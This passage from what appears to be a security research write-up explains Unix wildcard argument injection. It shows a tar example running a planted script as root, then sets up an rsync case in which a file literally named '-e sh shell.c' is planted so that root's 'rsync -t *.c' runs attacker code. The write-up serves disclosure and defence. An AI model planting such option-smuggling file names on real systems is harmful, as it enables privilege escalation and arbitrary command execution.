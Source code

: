 ```
[root@defensecode public]# cat shell.sh
/usr/bin/id
```

So, with this tar argument pollution, we can basically execute arbitrary commands  with privileges of the user that runs tar. As demonstrated on the ‘root’ account above.

## Rsync arbitrary command execution

Rsync is “a fast, versatile, remote (and local) file-copying tool”, that is very common on Unix systems. If we check ‘rsync’ manual page, we can again find options that can be abused for arbitrary  command execution.

Rsync manual:
```
“You use rsync in the same way you use rcp. You must specify a source and a destination, 
one of which may be remote.”
```

Interesting rsync option from manual:

```
 -e, --rsh=COMMAND           specify the remote shell to use
     --rsync-path=PROGRAM    specify the rsync to run on remote machine
```

Let’s abuse one example directly from the ‘rsync’ manual page. Following example will copy all C files in local directory to a remote host ‘foo’  in ‘/src’ directory.

```
rsync -t *.c foo:src/
```

Directory content:

```
[root@defensecode public]# ls -al
total 72
drwxrwxrwx.  2 user user  4096 Mar 28 04:47 .
drwx———. 24 user user  4096 Oct 28 18:32 ..
-rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
-rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
-rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
-rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
-rw-r———r———.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
-rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
-rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
-rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
-rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
-rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
-rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
```

Now root will try to copy all C files to the remote server.
